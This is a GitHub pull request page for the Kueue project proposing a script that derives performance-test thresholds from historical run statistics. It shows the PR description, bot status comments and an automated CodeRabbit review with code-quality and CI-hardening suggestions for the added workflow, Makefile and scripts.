

# PR #13609: Automated script to set performance threshold based on historical results and stat analysis

**Summary**: Automated script to set performance threshold based on historical results and stat analysis

**Sources**: https://github.com/kubernetes-sigs/kueue/pull/13609

**Last updated**: 2026-10-20T07:24:09Z

---

## Metadata

- **State**: open
- **Author**: [@ekam-walia](https://github.com/ekam-walia)
- **Branch**: `auto-perf-threshold-calibration-script` → `main`
- **Created**: 2026-07-29T05:14:43Z
- **Updated**: 2026-10-20T07:24:09Z
- **Merged**: —
- **Closed**: —
- **Labels**: `kind/feature`, `release-note`, `lifecycle/stale`, `size/L`, `needs-rebase`, `kind/documentation`, `cncf-cla: yes`, `area/tas`, `area/testing`
- **Assignees**: _none_
- **Requested reviewers**: [@sohankunkerkar](https://github.com/sohankunkerkar)
- **Changed files**: 5   **+418 / -21**

## Description

#### What type of PR is this?

/kind documentation
/kind feature
/area tas
/area testing


#### What this PR does / why we need it:
This PR creates a  script which collects execution times from successful builds and sets the perf test thresholds accordingly.

✅ Automated threshold calculation script
✅ Make target integration
✅ GitHub Actions workflow
✅ One-command installation
✅ Automatic backup creation
✅ Statistical rigor with configurable margins

## Quick Start

```bash
# Collect performance test data (5-10 runs recommended)
make update-performance-thresholds collect

# Preview threshold changes (dry-run, no files modified)
make update-performance-thresholds calculate dry

# Apply threshold changes to rangespec.yaml
make update-performance-thresholds calculate

# Validate metrics exist in artifacts
make update-performance-thresholds validate
```
## How It Works

1. **Collects** execution times from multiple performance test runs
2. **Analyzes** metrics using statistical methods (mean, standard deviation)
3. **Calculates** thresholds using formula: `mean + margin`
   - Command time: mean + 20%
   - Cluster queue utilization: mean - 7%
   - Workload admission time: mean + 20%
4. **Updates** `test/performance/scheduler/configs/baseline/rangespec.yaml` automatically
5. **Creates** automatic backup of old file


------------------------------


#### Which issue(s) this PR fixes:

Fixes #12841

#### Special notes for your reviewer:

#### Does this PR introduce a user-facing change?

```release-note
YES - This adds new functionality and commands for developers.
```


<!-- This is an auto-generated comment: release notes by coderabbit.ai -->
## Summary by CodeRabbit

* **New Features**
  * Added a make target to run the full performance-threshold workflow with custom arguments.
  * Introduced a performance-thresholds command-line tool to **collect** artifacts, **calculate** new thresholds from past runs, and **validate** required inputs.
  * Added a preview/dry-run mode to review the proposed threshold changes before applying.
  * Generated thresholds are written with an automatic backup of the previous configuration for safer updates.
<!-- end of auto-generated comment: release notes by coderabbit.ai -->

## Discussion

### Comment by [@netlify[bot]](https://github.com/apps/netlify) — 2026-07-29T05:14:49Z

### <span aria-hidden="true">✅</span> Deploy Preview for *kubernetes-sigs-kueue* canceled.


|  Name | Link |
|:-:|------------------------|
|<span aria-hidden="true">🔨</span> Latest commit | 2cf5b3ca4fd096b546195ec104c2bf858cd0a906 |
|<span aria-hidden="true">🔍</span> Latest deploy log | https://app.netlify.com/projects/kubernetes-sigs-kueue/deploys/6a6c4b1cccac920008a5535e |

### Comment by [@ekam-walia](https://github.com/ekam-walia) — 2026-07-29T05:14:52Z

cc @mimowo

### Comment by [@kubernetes-prow[bot]](https://github.com/apps/kubernetes-prow) — 2026-07-29T05:14:58Z

[APPROVALNOTIFIER] This PR is **NOT APPROVED**

This pull-request has been approved by: *<a href="https://github.com/kubernetes-sigs/kueue/pull/13609#" title="Author self-approved">ekam-walia</a>*
**Once this PR has been reviewed and has the lgtm label**, please assign [tenzen-y](https://github.com/tenzen-y) for approval. For more information see [the Code Review Process](https://git.k8s.io/community/contributors/guide/owners.md#the-code-review-process).

The full list of commands accepted by this bot can be found [here](https://go.k8s.io/bot-commands?repo=kubernetes-sigs%2Fkueue).

<details open>
Needs approval from an approver in each of these files:

- **[OWNERS](https://github.com/kubernetes-sigs/kueue/blob/main/OWNERS)**

Approvers can indicate their approval by writing `/approve` in a comment
Approvers can cancel approval by writing `/approve cancel` in a comment
</details>
<!-- META={"approvers":["tenzen-y"]} -->

### Comment by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:15:18Z

<!-- This is an auto-generated comment: summarize by coderabbit.ai -->
<!-- review_stack_entry_start -->

[](https://app.coderabbit.ai/change-stack/kubernetes-sigs/kueue/pull/13609?utm_source=github_walkthrough&utm_medium=github&utm_campaign=change_stack)

<!-- review_stack_entry_end -->
<!-- This is an auto-generated comment: review paused by coderabbit.ai -->

> [!NOTE]
> ## Reviews paused
> 
> It looks like this branch is under active development. To avoid overwhelming you with review comments due to an influx of new commits, CodeRabbit has automatically paused this review. You can configure this behavior by changing the `reviews.auto_review.auto_pause_after_reviewed_commits` setting.
> 
> Use the following commands to manage reviews:
> - `@coderabbitai resume` to resume automatic reviews.
> - `@coderabbitai review` to trigger a single review.
> 
> Use the checkboxes below for quick actions:
> - [ ] <!-- {"checkboxId": "7f6cc2e2-2e4e-497a-8c31-c9e4573e93d1"} --> ▶️ Resume reviews
> - [ ] <!-- {"checkboxId": "e9bb8d72-00e8-4f67-9cb2-caf3b22574fe"} --> 🔍 Trigger review

<!-- end of auto-generated comment: review paused by coderabbit.ai -->
<!-- walkthrough_start -->

<details>
<summary>📝 Walkthrough</summary>

## Walkthrough

Adds a Python calculator that derives performance thresholds from historical artifacts, a Bash workflow for collecting, validating, and applying updates, and a Makefile target that forwards arguments to the workflow.

### Changes

**Performance threshold automation**

|Layer / File(s)|Summary|
|---|---|
|**Threshold calculation engine** <br> `hack/testing/calculate_performance_thresholds.py`|Defines metric configuration and statistics, extracts metrics from `summary.yaml` artifacts, computes thresholds with margins and rounding, and generates rangespec YAML.|
|**Threshold calculation CLI** <br> `hack/testing/calculate_performance_thresholds.py`|Adds CLI options, validates artifacts, prints analysis, supports dry-run output, and creates backups before writing updated YAML.|
|**Local threshold commands** <br> `hack/testing/performance-thresholds.sh`, `Makefile-test.mk`|Adds collection, validation, calculation, help, and Makefile entrypoint commands for performance threshold updates.|

**Estimated code review effort:** 4 (Complex) | ~45 minutes

### Sequence Diagram(s)



**Suggested reviewers:** `mbobrovskyi`, `sohankunkerkar`

</details>

<!-- walkthrough_end -->
<!-- pre_merge_checks_walkthrough_start -->

<details>
<summary>🚥 Pre-merge checks | ✅ 4 | ❌ 1</summary>

### ❌ Failed checks (1 warning)

|     Check name     | Status     | Explanation                                                                           | Resolution                                                                         |
| :----------------: | :--------- | :------------------------------------------------------------------------------------ | :--------------------------------------------------------------------------------- |
| Docstring Coverage | ⚠️ Warning | Docstring coverage is 70.59% which is insufficient. The required threshold is 80.00%. | Write docstrings for the functions missing them to satisfy the coverage threshold. |

<details>
<summary>✅ Passed checks (4 passed)</summary>

|         Check name         | Status   | Explanation                                                                                                                            |
| :------------------------: | :------- | :------------------------------------------------------------------------------------------------------------------------------------- |
|     Linked Issues check    | ✅ Passed | The PR implements the requested automation to collect historical build results and compute perf thresholds statistically.              |
| Out of Scope Changes check | ✅ Passed | The added Make target, validation, dry-run, and backup flow all support the requested threshold automation.                            |
|      Description Check     | ✅ Passed | Check skipped - CodeRabbit’s high-level summary is enabled.                                                                            |
|         Title check        | ✅ Passed | The title accurately reflects the new automation for updating performance thresholds from historical results and statistical analysis. |

</details>

</details>

<!-- pre_merge_checks_walkthrough_end -->
<!-- finishing_touch_checkbox_start -->

<details>
<summary>✨ Finishing Touches</summary>

<details>
<summary>🧪 Generate unit tests (beta)</summary>

- [ ] <!-- {"checkboxId": "f47ac10b-58cc-4372-a567-0e02b2c3d479", "radioGroupId": "utg-output-choice-group-unknown_comment_id"} -->   Create PR with unit tests

</details>

</details>

<!-- finishing_touch_checkbox_end -->
<!-- tips_start -->

---

Thanks for using [CodeRabbit](https://coderabbit.ai?utm_source=oss&utm_medium=github&utm_campaign=kubernetes-sigs/kueue&utm_content=13609)! It's free for OSS, and your support helps us grow. If you like it, consider giving us a shout-out.

<details>
<summary>❤️ Share</summary>

- [X](https://twitter.com/intent/tweet?text=I%20just%20used%20%40coderabbitai%20for%20my%20code%20review%2C%20and%20it%27s%20fantastic%21%20It%27s%20free%20for%20OSS%20and%20offers%20a%20free%20trial%20for%20the%20proprietary%20code.%20Check%20it%20out%3A&url=https%3A//coderabbit.ai)
- [Mastodon](https://mastodon.social/share?text=I%20just%20used%20%40coderabbitai%20for%20my%20code%20review%2C%20and%20it%27s%20fantastic%21%20It%27s%20free%20for%20OSS%20and%20offers%20a%20free%20trial%20for%20the%20proprietary%20code.%20Check%20it%20out%3A%20https%3A%2F%2Fcoderabbit.ai)
- [Reddit](https://www.reddit.com/submit?title=Great%20tool%20for%20code%20review%20-%20CodeRabbit&text=I%20just%20used%20CodeRabbit%20for%20my%20code%20review%2C%20and%20it%27s%20fantastic%21%20It%27s%20free%20for%20OSS%20and%20offers%20a%20free%20trial%20for%20proprietary%20code.%20Check%20it%20out%3A%20https%3A//coderabbit.ai)
- [LinkedIn](https://www.linkedin.com/sharing/share-offsite/?url=https%3A%2F%2Fcoderabbit.ai&mini=true&title=Great%20tool%20for%20code%20review%20-%20CodeRabbit&summary=I%20just%20used%20CodeRabbit%20for%20my%20code%20review%2C%20and%20it%27s%20fantastic%21%20It%27s%20free%20for%20OSS%20and%20offers%20a%20free%20trial%20for%20proprietary%20code)

</details>


<sub>Comment `@coderabbitai help` to get the list of available commands.</sub>

<!-- tips_end -->

### Comment by [@ekam-walia](https://github.com/ekam-walia) — 2026-07-29T05:17:30Z

I'll do documentation in another PR ig by making a Issue

### Comment by [@ekam-walia](https://github.com/ekam-walia) — 2026-07-29T05:25:20Z

cc @mbobrovskyi

### Comment by [@mbobrovskyi](https://github.com/mbobrovskyi) — 2026-07-29T11:38:37Z

Could you please add some README.md how to use it.

### Comment by [@ekam-walia](https://github.com/ekam-walia) — 2026-07-30T07:54:18Z

/retest

### Comment by [@ekam-walia](https://github.com/ekam-walia) — 2026-07-30T14:26:17Z

/retest

### Comment by [@ekam-walia](https://github.com/ekam-walia) — 2026-07-30T17:13:44Z

There is some error in the location of summary.yaml file , like artifacts_dir is maybe not having the right path, have to check it, this would resolve the error

### Comment by [@kubernetes-prow[bot]](https://github.com/apps/kubernetes-prow) — 2026-07-31T07:22:51Z

@ekam-walia: The following test **failed**, say `/retest` to rerun all failed tests or `/retest-required` to rerun all mandatory failed tests:

Test name | Commit | Details | Required | Rerun command
--- | --- | --- | --- | ---
pull-kueue-verify-main | 2cf5b3ca4fd096b546195ec104c2bf858cd0a906 | [link](https://prow.k8s.io/view/gs/kubernetes-ci-logs/pr-logs/pull/kubernetes-sigs_kueue/13609/pull-kueue-verify-main/2083088683447095296) | true | `/test pull-kueue-verify-main`

[Full PR test history](https://prow.k8s.io/pr-history?org=kubernetes-sigs&repo=kueue&pr=13609). [Your PR dashboard](https://prow.k8s.io/pr?query=is%3Apr%20state%3Aopen%20author%3Aekam-walia). Please help us cut down on flakes by [linking to](https://git.k8s.io/community/contributors/devel/sig-testing/flaky-tests.md#filing-issues-for-flaky-tests) an [open issue](https://github.com/kubernetes-sigs/kueue/issues?q=is:issue+is:open) when you hit one in your PR.

<details>

Instructions for interacting with me using PR comments are available [here](https://git.k8s.io/community/contributors/guide/pull-requests.md).  If you have questions or suggestions related to my behavior, please file an issue against the [kubernetes-sigs/prow](https://github.com/kubernetes-sigs/prow/issues/new?title=Prow%20issue:) repository. I understand the commands that are listed [here](https://go.k8s.io/bot-commands).
</details>
<!-- test report -->

### Comment by [@kubernetes-prow[bot]](https://github.com/apps/kubernetes-prow) — 2026-08-13T01:30:31Z

PR needs rebase.

<details>

Instructions for interacting with me using PR comments are available [here](https://git.k8s.io/community/contributors/guide/pull-requests.md).  If you have questions or suggestions related to my behavior, please file an issue against the [kubernetes-sigs/prow](https://github.com/kubernetes-sigs/prow/issues/new?title=Prow%20issue:) repository.
</details>

### Comment by [@k8s-triage-robot](https://github.com/k8s-triage-robot) — 2026-10-20T07:24:06Z

The Kubernetes project currently lacks enough active contributors to adequately respond to all PRs.

This bot triages PRs according to the following rules:
- After 30d of inactivity, `lifecycle/stale` is applied
- After 30d of inactivity since `lifecycle/stale` was applied, `lifecycle/rotten` is applied
- After 30d of inactivity since `lifecycle/rotten` was applied, the PR is closed

You can:
- Mark this PR as fresh with `/remove-lifecycle stale`
- Close this PR with `/close`
- Offer to help out with [Issue Triage][1]

Please send feedback to us at [Kueue](https://github.com/kubernetes-sigs/kueue/tree/main#community-discussion-contribution-and-support).

/lifecycle stale

[1]: https://www.kubernetes.dev/docs/guide/issue-triage/

## Reviews

### Review by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) (commented) — 2026-07-29T05:23:03Z

**Actionable comments posted: 19**

<details>
<summary>🧹 Nitpick comments (4)</summary><blockquote>

<details>
<summary>hack/performance-threshold-automation/calculate_performance_thresholds.py (2)</summary><blockquote>

`414-435`: _📐 Maintainability & Code Quality_ | _🔵 Trivial_ | _💤 Low value_

**Extraneous `f` prefixes and a function-local import.**

Lines 416, 432, 435 have no placeholders (Ruff F541). Move `import shutil` (Line 423) to the module header.

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/performance-threshold-automation/calculate_performance_thresholds.py`
around lines 414 - 435, Remove the unnecessary f-string prefixes from the three
print statements without interpolation in the output-writing flow, and move the
shutil import from the local backup block to the module-level imports. Preserve
the existing backup and file-writing behavior.
```

</details>

<!-- cr-comment:v1:a8f7f02037ed4f2475401046 -->

_Source: Linters/SAST tools_

---

`242-250`: _📐 Maintainability & Code Quality_ | _🔵 Trivial_ | _💤 Low value_

**`load_existing_rangespec` is dead code and `existing` is never used.**

Neither is referenced anywhere in the file; the docstring on Line 243 also promises comment preservation that the generator does not do. Either wire them in or drop both. The `existing: dict = None` default is also an implicit Optional (Ruff RUF013).

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/performance-threshold-automation/calculate_performance_thresholds.py`
around lines 242 - 250, Remove the unused load_existing_rangespec function and
the unused existing parameter from generate_rangespec_yaml, including its
implicit Optional default. Update any affected call sites so generation relies
only on the thresholds input, and remove the inaccurate comment-preservation
docstring.
```

</details>

<!-- cr-comment:v1:ac1df0508dc23ffc16a65816 -->

_Source: Linters/SAST tools_

</blockquote></details>
<details>
<summary>hack/performance-threshold-automation/update_thresholds_ci.sh (2)</summary><blockquote>

`127-134`: _🩺 Stability & Availability_ | _🔵 Trivial_ | _💤 Low value_

**Unpinned, unqualified `pip install` may fail on modern CI images.**

PEP 668 externally-managed environments reject bare `pip install`, and installing into the system interpreter is a side effect the caller didn't ask for. Prefer failing with a clear message, or `python3 -m pip install --user 'PyYAML>=6'`.

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/performance-threshold-automation/update_thresholds_ci.sh` around lines
127 - 134, Update the PyYAML setup block in the dependency check to avoid an
unqualified system-level pip install: either fail with a clear actionable
message when PyYAML is unavailable, or invoke pip through python3 with user
installation and a minimum PyYAML version of 6. Preserve the existing
installation failure handling and exit behavior.
```

</details>

<!-- cr-comment:v1:f280c948cf0fe5304360f407 -->

---

`80-95`: _📐 Maintainability & Code Quality_ | _🔵 Trivial_ | _💤 Low value_

**Option values aren't validated before `shift 2`.**

With `set -u`, `--artifacts-dir` as the last argument aborts with a bare unbound-variable trace rather than a usage error. A `[[ $# -ge 2 ]]` guard per option would give an actionable message.

<details>
<summary>🤖 Prompt for AI Agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

In `@hack/performance-threshold-automation/update_thresholds_ci.sh` around lines
80 - 95, Add argument-count validation to each option handler in the
argument-parsing logic for --artifacts-dir, --cmd-margin, --util-margin, and
--adm-margin before accessing "$2" or executing shift 2. When fewer than two
arguments remain, emit the script’s usage/error message and exit cleanly instead
of triggering set -u.
```

</details>

<!-- cr-comment:v1:31051f2c2b34d3ba336b9294 -->

</blockquote></details>

</blockquote></details>

<details>
<summary>🤖 Prompt for all review comments with AI agents</summary>

```
Verify each finding against current code. Fix only still-valid issues, skip the
rest with a brief reason, keep changes minimal, and validate.

Inline comments:
In @.github/workflows/performance-threshold-update.yml:
- Around line 31-40: Add a least-privilege top-level permissions default and
grant the performance-tests job contents: write and pull-requests: write for
peter-evans/create-pull-request; add contents: read to the validation job.
Update the actions/checkout step in performance-tests to set
persist-credentials: false while retaining fetch-depth: 0.
- Around line 196-215: The validation job is a non-functional green check and
checks out the wrong revision. Remove the entire validation job until real
threshold validation is implemented, including its needs, checkout step, and
placeholder validation commands.
- Around line 113-114: Update the dry-run gating for the “Update thresholds”
step, the validation job, and the corresponding schedule entries to use the
typed inputs context with a false default when no dispatch input exists. Remove
any dependabot actor guard, and ensure scheduled runs proceed with writes and
validation when dry_run is absent.
- Around line 142-149: Remove the “Closes `#12841`” line from the commit-message
template in the performance-threshold workflow, leaving the existing issue
reference in the pull request body at the established location.
- Around line 63-93: Update the performance workflow steps, including “Run
performance tests (multiple times)” and the referenced display, threshold,
changes, and summary steps, to expose github.event.inputs values through
step-level env variables instead of interpolating them directly in run scripts.
Quote all variable expansions used in shell commands and make the backup copy
tolerate an empty artifacts directory without aborting, while preserving the
existing test selection and backup behavior.
- Around line 42-50: Update the workflow’s setup-go and setup-python action pins
to current supported major versions, and update peter-evans/create-pull-request
to its current supported major wherever used. In the “Set up Go” step, replace
go-version: '1.21' with go-version-file: go.mod so the workflow follows the
repository’s declared Go version.
- Around line 182-194: Update the “Summary” step’s status output to derive
success or failure from the GitHub Actions job context instead of always writing
“✓ Complete”. Preserve the existing summary content and `if: always()` behavior
while ensuring failed earlier steps are reported as unsuccessful.

In `@hack/performance-threshold-automation/calculate_performance_thresholds.py`:
- Around line 27-32: Update the threshold calculation logic to use the declared
percentile_stddev and each metric’s computed standard deviation: calculate
percentile-based upper/lower thresholds from mean plus or minus
percentile_stddev times stddev, while retaining the existing margin as a minimum
floor. Fall back to the margin-based calculation when stddev is zero or fewer
than two runs are available, and ensure MetricStats.percentile_99 is used or
removed consistently.
- Around line 105-116: Update the summary-file loop around _extract_metrics so a
metric extraction failure does not increment run_count or print “✓ Loaded”; let
extraction errors propagate or return an explicit success indicator and only
count/log successful samples. Replace the broad except Exception with targeted
file/YAML and metric-parsing exceptions as appropriate, preserving error
reporting for genuinely loadable failures.
- Around line 189-192: Update _calculate_utilization_threshold to floor the
threshold to one decimal place using math.floor(threshold * 10) / 10, matching
the documented round-down behavior. In the generated output formatting around
the threshold template, remove the trailing literal space after the
{threshold:>10} field while preserving the intended value alignment.
- Around line 254-265: Remove the dynamically generated “Last updated” timestamp
from the yaml_content construction in the threshold generation flow, including
the __import__('datetime').datetime.now() expression. Keep the threshold values
and surrounding YAML output unchanged so repeated runs produce no diff when
thresholds have not changed.

In `@hack/performance-threshold-automation/update_thresholds_ci.sh`:
- Around line 171-176: Update the threshold-change check in the DRY_RUN=false
branch to use git status --porcelain for RANGESPEC_FILE instead of git diff
--quiet, so both tracked modifications and untracked newly created files are
detected; preserve the existing warning and success messages based on whether
status output is empty.
- Around line 145-166: Replace the string-based CMD construction and eval
invocation with a Bash argv array, appending each option and its value as
separate quoted elements, including the conditional --dry-run flag. Execute the
array directly in the threshold calculation block while preserving the existing
logging, failure handling, and command display behavior.

In `@install_threshold_automation.sh`:
- Around line 212-213: Update the workflow installation logic around the cp and
print_success steps to remove the auto-close reference from the copied
workflow’s generated commit message, while preserving issue linkage only in the
pull request description. Ensure the installed workflow no longer emits “Closes
`#12841`” or equivalent auto-close/# mention text in commit messages.
- Around line 20-22: Update the installer’s root handling around REPO_ROOT and
AUTOMATION_DIR to separate the script’s source repository from the
caller-selected target repository. Resolve source assets relative to the
installer location, map the calculator/helper and workflow to their actual
source paths, use the caller’s repository only as the destination, and validate
that source and destination roots are not identical before modifying files.
- Around line 255-266: Update the installation smoke-test flow around the
perf-threshold make check and the Python help check so either failure returns a
non-zero status instead of warning or being masked by `test_installation ||
true`. Remove the unconditional success suppression at the `test_installation`
call site, and ensure `main` propagates the failed `test_installation` status
rather than printing “Installation Complete!”.

In `@Makefile`:
- Around line 613-620: Update the performance-threshold Make targets, including
update-performance-thresholds and the sibling targets around the referenced
lines, to pass configurable Make variables for CMD_MARGIN, UTIL_MARGIN, and
ADMISSION_MARGIN instead of hardcoded values. Preserve the current defaults
while allowing command-line overrides such as CMD_MARGIN=0.25 to affect the
Python script arguments.
- Around line 677-696: Extract the duplicated multi-run collection loop into
hack/performance-threshold-automation/collect_runs.sh, accepting the run count
and test type and copying source contents with a dot-safe path such as
artifacts/<type>/. Update Makefile lines 677-696 to invoke this script instead
of maintaining its inline loop, and replace the inline workflow loop in
.github/workflows/performance-threshold-update.yml lines 63-93 with the same
script call so local and CI collection remain synchronized.
- Around line 677-696: Update the collect-performance-runs recipe so the prompt,
validation, loop, backups, and final summary execute within one shell context,
preserving the entered count for the closing message. Replace bash-specific read
-p usage with a /bin/sh-compatible prompt and read sequence, validate that count
is a positive integer before invoking seq, and use $(MAKE) instead of make for
run-performance-scheduler so Make flags propagate.

---

Nitpick comments:
In `@hack/performance-threshold-automation/calculate_performance_thresholds.py`:
- Around line 414-435: Remove the unnecessary f-string prefixes from the three
print statements without interpolation in the output-writing flow, and move the
shutil import from the local backup block to the module-level imports. Preserve
the existing backup and file-writing behavior.
- Around line 242-250: Remove the unused load_existing_rangespec function and
the unused existing parameter from generate_rangespec_yaml, including its
implicit Optional default. Update any affected call sites so generation relies
only on the thresholds input, and remove the inaccurate comment-preservation
docstring.

In `@hack/performance-threshold-automation/update_thresholds_ci.sh`:
- Around line 127-134: Update the PyYAML setup block in the dependency check to
avoid an unqualified system-level pip install: either fail with a clear
actionable message when PyYAML is unavailable, or invoke pip through python3
with user installation and a minimum PyYAML version of 6. Preserve the existing
installation failure handling and exit behavior.
- Around line 80-95: Add argument-count validation to each option handler in the
argument-parsing logic for --artifacts-dir, --cmd-margin, --util-margin, and
--adm-margin before accessing "$2" or executing shift 2. When fewer than two
arguments remain, emit the script’s usage/error message and exit cleanly instead
of triggering set -u.
```

</details>

<details>
<summary>🪄 Autofix (Beta)</summary>

Fix all unresolved CodeRabbit comments on this PR:

- [ ] <!-- {"checkboxId": "4b0d0e0a-96d7-4f10-b296-3a18ea78f0b9"} --> Push a commit to this branch (recommended)
- [ ] <!-- {"checkboxId": "ff5b1114-7d8c-49e6-8ac1-43f82af23a33"} --> Create a new PR with the fixes

</details>

---

<details>
<summary>ℹ️ Review info</summary>

<details>
<summary>⚙️ Run configuration</summary>

**Configuration used**: Path: .coderabbit.yaml

**Review profile**: CHILL

**Plan**: Pro Plus

**Run ID**: `e213375b-469b-44f1-81bb-f8bf607e9138`

</details>

<details>
<summary>📥 Commits</summary>

Reviewing files that changed from the base of the PR and between bdf108fc9c311fa83ca1ae0ceecdd4f62b9d3c75 and f8548440610b64fc95a81abaed72944d18bfe6a7.

</details>

<details>
<summary>📒 Files selected for processing (6)</summary>

* `.github/workflows/performance-threshold-update.yml`
* `Makefile`
* `hack/performance-threshold-automation/README.md`
* `hack/performance-threshold-automation/calculate_performance_thresholds.py`
* `hack/performance-threshold-automation/update_thresholds_ci.sh`
* `install_threshold_automation.sh`

</details>

</details>

<!-- This is an auto-generated comment by CodeRabbit for review status -->

- **.github/workflows/performance-threshold-update.yml:40** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:22:59Z
```diff
@@ -0,0 +1,215 @@
+name: Performance Threshold Update
+on:
+  workflow_dispatch:
+    inputs:
+      test_type:
+        description: 'Type of performance test'
+        required: true
+        default: 'baseline'
+        type: choice
+        options:
+          - baseline
+          - tas
+      num_runs:
+        description: 'Number of test runs to collect'
+        required: true
+        default: '5'
+        type: choice
+        options:
+          - '3'
+          - '5'
+          - '10'
+      dry_run:
+        description: 'Dry run (preview only, no changes)'
+        required: false
+        default: false
+        type: boolean
+  # Optional: Schedule weekly updates
+  # schedule:
+  #   - cron: '0 0 * * 0'
+
+jobs:
+  performance-tests:
+    runs-on: ubuntu-latest
+    timeout-minutes: 300  # 5 hours for multiple test runs
+    
+    steps:
+      - name: Checkout code
+        uses: actions/checkout@v4
+        with:
+          fetch-depth: 0
```

  _🔒 Security & Privacy_ | _🟠 Major_ | _⚡ Quick win_
  
  **No `permissions:` block — `create-pull-request` will fail on repos with read-only default token.**
  
  `peter-evans/create-pull-request` needs `contents: write` and `pull-requests: write`. Add an explicit least-privilege block, and set `persist-credentials: false` on the checkout so the `fetch-depth: 0` clone doesn't leave the token in `.git/config` for the test runs.
  
  
  
  
  
  <details>
  <summary>🔒️ Proposed fix</summary>
  
  ```diff
   jobs:
     performance-tests:
       runs-on: ubuntu-latest
  +    permissions:
  +      contents: write
  +      pull-requests: write
       timeout-minutes: 300  # 5 hours for multiple test runs
       
       steps:
         - name: Checkout code
           uses: actions/checkout@v4
           with:
             fetch-depth: 0
  +          persist-credentials: false
  ```
  
  Add a top-level `permissions: {}` default and `permissions: contents: read` on the `validation` job as well.
  </details>
  
  
  Also applies to: 137-141
  
  <details>
  <summary>🧰 Tools</summary>
  
  <details>
  <summary>🪛 zizmor (1.28.0)</summary>
  
  [warning] 37-40: credential persistence through GitHub Actions artifacts (artipacked): does not set persist-credentials: false
  
  (artipacked)
  
  </details>
  
  </details>
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In @.github/workflows/performance-threshold-update.yml around lines 31 - 40, Add
  a least-privilege top-level permissions default and grant the performance-tests
  job contents: write and pull-requests: write for
  peter-evans/create-pull-request; add contents: read to the validation job.
  Update the actions/checkout step in performance-tests to set
  persist-credentials: false while retaining fetch-depth: 0.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:e732c3f366ddafebb4033237 -->
  
  _Source: Linters/SAST tools_
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **.github/workflows/performance-threshold-update.yml:50** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:22:59Z
```diff
@@ -0,0 +1,215 @@
+name: Performance Threshold Update
+on:
+  workflow_dispatch:
+    inputs:
+      test_type:
+        description: 'Type of performance test'
+        required: true
+        default: 'baseline'
+        type: choice
+        options:
+          - baseline
+          - tas
+      num_runs:
+        description: 'Number of test runs to collect'
+        required: true
+        default: '5'
+        type: choice
+        options:
+          - '3'
+          - '5'
+          - '10'
+      dry_run:
+        description: 'Dry run (preview only, no changes)'
+        required: false
+        default: false
+        type: boolean
+  # Optional: Schedule weekly updates
+  # schedule:
+  #   - cron: '0 0 * * 0'
+
+jobs:
+  performance-tests:
+    runs-on: ubuntu-latest
+    timeout-minutes: 300  # 5 hours for multiple test runs
+    
+    steps:
+      - name: Checkout code
+        uses: actions/checkout@v4
+        with:
+          fetch-depth: 0
+      
+      - name: Set up Go
+        uses: actions/setup-go@v4
+        with:
+          go-version: '1.21'
+      
+      - name: Set up Python
+        uses: actions/setup-python@v4
+        with:
+          python-version: '3.11'
```

  _🩺 Stability & Availability_ | _🟡 Minor_ | _⚡ Quick win_
  
  <details>
  <summary>🧩 Analysis chain</summary>
  
  🌐 Web query:
  
  `latest major versions actions/setup-go actions/setup-python peter-evans/create-pull-request`
  
  💡 Result:
  
  As of July 29, 2026, the latest major versions for the specified GitHub Actions are: actions/setup-go: v7 [1] actions/setup-python: v7 [2] peter-evans/create-pull-request: v8 [3][4] Each of these major versions represents the current stable release line for its respective repository. Users are typically encouraged to use the major version tag (e.g., `@v7` or `@v8`) in their workflow files to automatically receive minor and patch updates while maintaining compatibility with the major version's breaking changes [5][6][7].
  
  Citations:
  
  - 1: https://github.com/actions/setup-go/releases/tag/v7.0.0
  - 2: https://github.com/actions/setup-python/releases/tag/v7.0.0
  - 3: https://github.com/peter-evans/create-pull-request/releases
  - 4: https://github.com/peter-evans/create-pull-request/
  - 5: https://github.com/actions/setup-go/blob/main/README.md
  - 6: https://github.com/marketplace/actions/setup-python
  - 7: https://github.com/peter-evans/create-pull-request/blob/master/README.md
  
  ---
  
  🏁 Script executed:
  
  ```shell
  #!/bin/bash
  set -euo pipefail
  
  echo "== workflow outline =="
  wc -l .github/workflows/performance-threshold-update.yml
  echo
  echo "== relevant runner pins =="
  rg -n "uses: actionlint|setup-go|setup-python|create-pull-request|go-version|go-version-file" .github/workflows/performance-threshold-update.yml
  echo
  echo "== pinned action summary =="
  python3 - <<'PY'
  from pathlib import Path
  p=Path(".github/workflows/performance-threshold-update.yml")
  for i,line in enumerate(p.read_text().splitlines(),1):
      if "uses:" in line:
          print(f"{i}: {line.strip()}")
  PY
  ```
  
  Repository: kubernetes-sigs/kueue
  
  Length of output: 630
  
  ---
  
